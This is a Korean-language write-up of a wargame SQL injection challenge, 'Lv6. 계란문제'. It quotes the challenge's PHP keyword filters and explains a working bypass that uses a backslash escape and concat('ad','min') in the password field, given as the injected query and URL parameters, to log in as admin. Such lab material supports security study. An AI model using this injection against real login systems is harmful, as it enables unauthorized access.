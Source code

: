 <img width="160" alt="스크린샷 2020-01-10 오후 5 55 31" src="https://user-images.githubusercontent.com/54495632/72139841-b91c2680-33d2-11ea-9e19-a254e16f87df.png">

Lv6. 계란문제

<img width="585" alt="스크린샷 2020-01-10 오후 5 55 42" src="https://user-images.githubusercontent.com/54495632/72139855-bf120780-33d2-11ea-86a1-0585514e6b2d.png">
<img width="662" alt="스크린샷 2020-01-10 오후 5 56 16" src="https://user-images.githubusercontent.com/54495632/72139866-c2a58e80-33d2-11ea-9092-b8a1f959c6fe.png">

그전 문제에서 필터링 조건이 붙은 것 같다.
if(preg_match('/play|_|\.|\(|\)|info/i', $id)){ exit("Nope !!");}
if(preg_match('/play|_|\.|\(|\)|info/i', $pw)){ exit("Nope !!");}
if(preg_match('/#|;|-/i', $id)){ exit("Query is filtered :( ");}
if(preg_match('/#|;|-/i', $pw)){ exit("Query is filtered :( ");}

#주석처리, -- 주석처리 ; 등이 사용 불가능한 것 같다.

앞 서 이용했던 escape문자 \와 concat 을 활용하기로 했다.

select id from play_sql06 where id='\' and pw=sha1('||id=concat('ad','min')

쿼리 자체는 다음과 같은 쿼리를 사용했고

URL 은 sha1('') 에 의해 닫히므로 id=\&pw=||id=concat(%27ad%27,%27min

마지막 부분에서 ') 는 생략해주었다.

다음과 같이 URL을 입력하게 되면 id 가 \' and pw=sha1( 로 인식이 되어 pw 에서의

sha1 함수를 피할 수 있게 된다.

이 다음 id 에 admin 을 주어야 하는데 sha1 함수에서 마지막 ') 부분이 남으므로

온전히 id = 'admin' 의 구조는 이용할 수 없어 괄호와 작은 따옴표를 이용하면서 admin 값을 넘길 수 

있는 방법을 생각해, concat 함수로 || id = concat( 'ad','min 과 같이 우회하였다.

<img width="483" alt="스크린샷 2020-01-10 오후 6 13 01" src="https://user-images.githubusercontent.com/54495632/72141150-a3f4c700-33d5-11ea-900b-29e09db8fd48.png">

<img width="834" alt="스크린샷 2020-01-10 오후 6 13 06" src="https://user-images.githubusercontent.com/54495632/72141154-a5be8a80-33d5-11ea-97d5-449fab24817c.png">